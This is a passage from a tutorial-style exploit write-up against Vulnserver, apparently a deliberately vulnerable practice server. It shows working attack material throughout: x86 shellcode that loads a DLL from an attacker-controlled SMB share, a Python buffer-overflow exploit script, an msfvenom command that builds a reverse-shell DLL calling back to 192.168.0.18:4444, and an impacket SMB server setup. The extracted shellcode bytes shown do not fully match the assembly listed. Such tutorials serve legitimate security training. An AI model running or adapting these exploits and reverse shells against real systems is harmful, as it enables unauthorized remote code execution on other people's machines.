Easy! The `lpLibFileName` is a string with the location of the `DLL` file to
be included. To our advantage, the location can be an Universal Naming
Convention (`UNC`) path in the form `\\server\share\file.dll`.

In Windows, that path would be resolved using the `SMB` protocol. That means
that we must expose that file using a `SMB` server. But we will get to that
later. For now, we can predict that the `UNC` path of our payload will
be at `\\attacker_ip\share\shell.dll`. In my case, it would be
`\\192.168.0.18\X\pwn.dll`.

To call `LoadLibraryA` on a `x86` architecture, we must push to the stack
the `lpLibFileName` value which is a pointer to the
`\\192.168.0.18\X\pwn.dll` string. As `x86` is a 32 bits architecture, we
must push exactly 4 bytes each time to the stack. And as we are pushing data
to the stack, it must be in reverse order. So, we need to convert
`\\192.168.0.18\X\pwn.dll` to hex, split it in chunks of 4 bytes, pad as
needed and reverse. This can be done with:

[source,console]
----
$ for i in $(echo -ne '\\\\192.168.0.18\\X\\pwn.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
push 0x6c6c642e
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
----

With the required information, we can now write the call to `LoadLibraryA`:

[source,x86asm]
----
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
                        ; the UNC path
push ebx                ; PUSH NULL byte
push 0x6c6c642e         ; \\192.168.0.18\X\pwn.dll reversed
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
push esp                ; Push pointer of the UNC path
mov ebx,0x76460b30      ; Move into EBX the address of 'LoadLibraryA'
call ebx                ; call 'LoadLibraryA("\\192.168.0.18\X\pwn.dll")'
----

We can compile that using `nasm`:

[source,console]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And obtain the shellcode using this:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x6c\x6c\x30\x30\x68\x5c
\x73\x68\x65\x68\x31\x38\x5c\x73\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36
\x68\x5c\x5c\x31\x39\xbb\x30\x0b\x46\x76\xff\xd3
----

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LOAD_LIBRARY = (
    b'\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x5c\x70\x77\x6e'
    b'\x68\x31\x38\x5c\x58\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68'
    b'\x5c\x5c\x31\x39\x54\xbb\x30\x0b\x46\x76\xff\xd3'
)

PAYLOAD = (
    b'KSTET ' +
    b'\x90' * 2 +
    LOAD_LIBRARY +
    b'A' * (70 - len(LOAD_LIBRARY) - 2) +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:



Great! The `LoadLibraryA` function is now ready.

== Finishing exploiting

Now we everything set, we must now create a shellcode on a `DLL` file
and share it on a `SMB` server.

Luckily for us, `msfvenom` can create shellcodes and export them to `DLL`
files. Let's do that:

[source,console]
----
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f dll -o pwn.dll
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
Saved as: pwn.dll
----

And must server that `pwn.dll` on a `SMB` share called `X`. We can use
Impacket's `smbserver.py` to do that:

[source,console]
----
$ sudo impacket-smbserver -smb2support X .
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
----
This will create a new anonymous `SMB` server, will share the current
directory `.`, using a share name `X`. The `-smb2support` parameter is
needed because Windows 10 will refuse to connect to `SMB` servers using
the `SMBv1` protocol.

Now we are ready. We can check our exploit:



Yes! We got a shell! You can see how the victim is self-hacking by retrieving
the payload from our attacking machine!

You can download the final exploit link:exploit.py[here]

== Conclusion

This was a very fun way for exploiting Vulnserver. Remember that this
technique only works if the attacking machine is adjacent to the victim
machine and there are not network restrictions between them.
